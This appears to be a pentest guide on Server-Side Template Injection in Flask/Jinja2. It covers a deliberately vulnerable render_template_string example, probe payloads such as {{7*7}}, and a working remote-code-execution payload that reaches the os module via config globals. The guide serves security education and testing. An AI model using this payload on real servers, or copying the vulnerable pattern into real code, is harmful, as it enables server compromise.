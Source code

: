 # **Pentest Documentation: Server-Side Template Injection (SSTI)**

## **Introduction**

**Server-Side Template Injection (SSTI)** is a critical web vulnerability that occurs when user input is concatenated
directly into a template without proper sanitization, allowing attackers to inject malicious template expressions. This
can lead to severe consequences of remote code execution (RCE), data leakage, and unauthorized actions on the server.

## **Understanding Server-Side Template Injection**

### **What is SSTI?**

Template engines are used in web applications to generate dynamic HTML pages. SSTI occurs when user-supplied input is
embedded directly into a template in an unsafe manner. If the template engine processes the input as code, an attacker
can execute arbitrary code on the server.

### **How Does SSTI Occur?**

SSTI vulnerabilities arise when:

- User input is **directly** inserted into templates without proper sanitization.
- The application uses **unsafe** methods to render templates.
- The template engine allows execution of arbitrary code (e.g., accessing attributes, invoking functions).

#### **Example of Vulnerable Code (Python with Jinja2):**

```python
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route('/hello')
def hello():
    name = request.args.get('name', 'World')
    template = f'Hello {name}!'
    return render_template_string(template)
```

In this example, user input `name` is directly embedded into the template, making it vulnerable to SSTI.

## **Attack Scenario: Exploiting SSTI in Different Template Engines**

### **Identifying the Template Engine**

Before exploiting SSTI, it's crucial to identify the template engine in use. Clues can be found through:

- Error messages revealing the template engine.
- Syntax used in the templates (e.g., <code v-pre>{{ }}</code>, <code v-pre>{% %}</code>, `${ }`).

### **Exploitation Examples**

#### **Exploiting Jinja2 (Python)**

**Payload to Trigger SSTI:**

```plaintext
{{ 7*7 }}
```

**Expected Output:**

```
49
```

**Achieving Remote Code Execution:**

```plaintext
{{ config.__class__.__init__.__globals__['os'].popen('id').read() }}
```

**Explanation:**

- `config.__class__.__init__.__globals__['os']` accesses the `os` module.
- `.popen('id').read()` executes the `id` command and reads the output.

## **Detection**

### **Manual Testing**

- **Inject Common SSTI Payloads:** Use payloads like <code v-pre>{{7*7}}</code>, `${7*7}`, `#{7*7}` in input fields to
  check for code execution.

- **Observe Responses:** If the server responds with evaluated expressions (e.g., `49`), SSTI is likely present.

## **Conclusion**

Server-Side Template Injection is a severe vulnerability that can lead to complete server compromise. By understanding
how SSTI occurs and implementing robust input validation and secure coding practices, developers and security
professionals can mitigate these risks effectively.

## **References**

- [HackTricks - Jinja2 SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#jinja-injection)
